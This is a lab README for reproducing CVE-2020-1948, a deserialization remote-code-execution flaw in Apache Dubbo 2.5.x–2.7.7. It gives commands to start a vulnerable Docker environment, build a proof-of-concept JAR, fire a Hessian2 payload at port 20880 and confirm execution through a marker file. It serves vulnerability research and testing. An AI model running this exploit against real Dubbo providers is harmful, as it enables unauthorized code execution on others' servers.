

# Apache Dubbo Provider Deserialization Remote Code Execution (CVE-2020-1948)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance Java RPC framework.

Apache Dubbo 2.5.x, 2.6.0 through 2.6.8, and 2.7.0 through 2.7.7 contain a deserialization vulnerability in the provider-side RPC request decoder. An attacker can send a Dubbo RPC request with an unrecognized service name or method name and malicious serialized parameters. The vulnerable provider still deserializes those parameters before rejecting the invocation, which can lead to remote code execution when a usable gadget chain exists in the target JVM.

References:

- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1948>
- <https://mp.weixin.qq.com/s/V6Wuyi2a6Rji3db6htvNHQ>
- <https://github.com/apache/dubbo/releases/tag/dubbo-2.7.8>

## Environment Setup

Execute the following command to start Apache Dubbo 2.7.5:

```
docker compose up -d
```

After the service starts, the Dubbo provider listens on `your-ip:20880`. This environment uses `N/A` as the registry address, so ZooKeeper or other registry services are not required.

## Vulnerability Reproduction

Build the external Dubbo PoC JAR first with Java 8:

```
(cd ../../base/dubbo/poc && mvn clean package)
```

Then send the Hessian2 payload to the exposed Dubbo port from outside the provider container:

```
java -jar ../../base/dubbo/poc/target/dubbo-poc-1.0-SNAPSHOT.jar CVE-2020-1948 127.0.0.1 20880
```

After sending the payload, verify command execution inside the provider container:

```
docker compose exec provider ls -l /tmp/success
```

The presence of `/tmp/success` confirms that the malicious parameter was deserialized and executed before Dubbo rejected the unknown service and method.


